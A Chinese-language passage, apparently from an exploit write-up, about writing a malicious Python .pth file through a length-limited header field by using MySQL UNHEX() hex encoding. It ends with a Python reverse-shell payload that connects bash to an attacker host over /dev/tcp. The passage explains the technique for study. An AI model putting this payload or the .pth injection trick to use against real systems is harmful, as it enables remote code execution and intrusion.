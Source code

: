   
写入 
```
/var/log/lib/python3.10/site-packages/trigger.pth
```

  
文件。  
  
但很快我们就遇到了几个问题：  
- 我们的 payload 包含空格 - 这破坏了 
```
sscanf
```

  
调用中的 
```
%128s
```

  
限制  
  
- 更糟糕的是，整个 header 值现在完全超过了 128 字符的限制  
  
那么，如果我们把路径缩短为 
```
/var/log/lib/python3.10/site-packages/a.pth
```

  
呢？  
  
这确实有所帮助...但我们仍然被 
```
import os
```

  
中的空格所困扰。  
  
为了解决这个问题，我们可以使用 MySQL 工具箱中的一个老方法 - 
```
UNHEX()
```

  
函数。  

```
UNHEX('41414141') --> AAAA
```

  
所以我们就直接对 payload 进行 hex 编码然后写入文件？  
  
要是真这么简单就好了。  
  
假设我们尝试一个反向 shell 的 payload——类似这样：  

```
import os; os.system('bash -c &#34;/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1&#34;')
```

  